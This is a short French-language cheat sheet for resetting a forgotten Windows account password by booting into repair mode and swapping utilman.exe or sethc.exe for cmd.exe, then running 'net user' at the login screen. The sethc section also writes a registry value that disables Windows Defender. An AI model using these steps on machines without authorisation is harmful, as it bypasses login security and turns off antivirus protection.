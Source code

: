 

# Prérequis

Disque d'install ou clé USB avec ISO
Si problèmes avec les volumes voir [[DISKPART]]

# UTILMAN

1. Lancer la machine en mode réparation
2. Cliquer sur Dépannage
3. Command Prompt
4. Taper les commandes 

```cmd
rename c:\windows\system32\utilman.exe c:\windows\system32\utilman.old
```

```cmd
copy c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe
```

6. Taper All si besoin d'Overwrite
7. Exit
8. Enter
9. Cliquer sur les options d'ergonomie
10. Taper la commande

```cmd
net user <username> <new_password>
```

12. Exit le cmd
13. Login avec le nouveau password.

# SETHC

1. Lancer la machine en mode réparation
2. Cliquer sur Dépannage
3. Command Prompt
4. Taper les commandes 

```cmd
copy c:\windows\system32\sethc.exe c:\
```

```cmd
copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

5. Désactiver Defender qui connait l'astuce
```cmd
reg load HKLM\temp-hive c:\windows\system32\config\SOFTWARE
```

```cmd
reg add "HKLM\temp-hive\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

```cmd
reg unload HKLM\temp-hive
```

6. Taper All si besoin d'Overwrite
7. Exit
8. Enter
9. Presser Shift 5 fois
10. Taper la commande

```cmd
net user <username> <new_password>
```

12. Exit le cmd
13. Login avec le nouveau password.

